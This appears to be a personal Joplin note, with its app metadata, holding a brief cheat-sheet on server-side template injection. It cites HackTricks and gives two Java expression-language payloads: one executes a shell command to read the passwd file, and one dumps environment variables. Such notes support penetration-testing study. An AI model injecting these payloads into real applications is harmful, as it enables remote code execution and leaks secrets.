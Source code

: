 Exploit

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#exploits

According to the code language used

# Java

## Get /etc/passwd

${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

Retrieve System env vars

${T(java.lang.System).getenv()}

id: fe2a22d7cb024a1f8391cc980193d087
parent_id: be00c0893e484fee90efe572981ef789
created_time: 2022-07-11T16:42:50.502Z
updated_time: 2022-07-11T16:52:13.216Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1657557722946
user_created_time: 2022-07-11T16:42:50.502Z
user_updated_time: 2022-07-11T16:52:13.216Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1